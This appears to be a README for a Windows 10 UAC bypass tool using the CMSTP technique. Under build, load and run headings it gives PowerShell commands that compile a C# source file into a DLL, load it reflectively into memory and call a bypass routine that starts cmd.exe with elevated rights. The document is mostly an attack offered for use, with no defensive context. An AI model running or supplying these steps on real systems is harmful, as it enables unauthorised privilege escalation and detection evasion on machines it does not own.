 # ALNX-1001-CMSTP
Win-UAC-Bypass ALNX-1001-CMSTP

```yaml
TargetOS: Win10
TestedOn: 2004 SO 19041.685
Language: .NET 6.1
Patch: n/a
Danger: 4
Classification: ALNX-1001-CMSTP
```

**_Build_**
```powershell
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\ALNX1001-Example.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "ALNX-1001-CMSTP.dll"
```

**_Load_**
```powershell
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\ALNX-1001-CMSTP.dll"))
```

**_Run_**
```powershell
[CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

